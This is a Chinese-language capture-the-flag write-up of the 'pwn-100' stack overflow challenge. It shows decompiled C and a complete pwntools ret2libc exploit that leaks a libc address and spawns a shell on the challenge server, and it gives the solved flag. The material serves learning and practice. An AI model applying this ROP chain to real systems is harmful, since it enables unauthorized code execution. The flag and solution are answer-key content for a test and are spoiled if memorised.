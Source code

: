 # pwn-100

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=b976a4ac-747a-4fa3-8359-c2b32fb07f1a_2&task_category_id=2)

我是在梦里写过这题吗？怎么感觉在哪里见过？

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

程序本身非常简单，main函数内部调用了一个函数。

```c
void FUN_0040063d(long param_1,int param_2)
{
  int local_c;
  for (local_c = 0; local_c < param_2; local_c = local_c + 1) {
    read(0,(void *)(param_1 + local_c),1);
  }
  return;
}
```

param_1是main函数中一个长度为64的数组，param_2为200。函数整体逻辑就是分批次接收输入，一次一个字符，总共200个。这样肯定会栈溢出，不过溢出的是调用函数的栈。还是一个基本的栈溢出题。

```python
from pwn import *
p=remote("61.147.171.105",62265)
pop_rdi=0x0000000000400763 
puts_plt=4195584
puts_got=6295576
main_addr=0x0040068e
payload=b'a'*0x48+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
payload+=b'a'*(200-len(payload))
p.send(payload)
p.recvuntil(b'\x0a')
puts_addr=u64(p.recv()[:-1].ljust(8,b'\x00'))
system_offset=-0x2a300
bin_sh_offset=0x11d6c7
payload=b'a'*0x48+p64(pop_rdi)+p64(puts_addr+bin_sh_offset)+p64(puts_addr+system_offset)+p64(main_addr)
payload+=b'a'*(200-len(payload))
p.send(payload)
p.interactive()
```

不能使用sendline，因为sendline会在payload后面加上一个\n，那样就不是正好200个字符了，多出来的东西会跑到下一次输入中，打乱我们的计划。不知道输入长度为199然后再sendline行不行。泄露的地址接收从\x0a开始而不是\x90。

- ### Flag
  > cyberpeace{eafecfb8831059ba45baeb1dec81dd8b}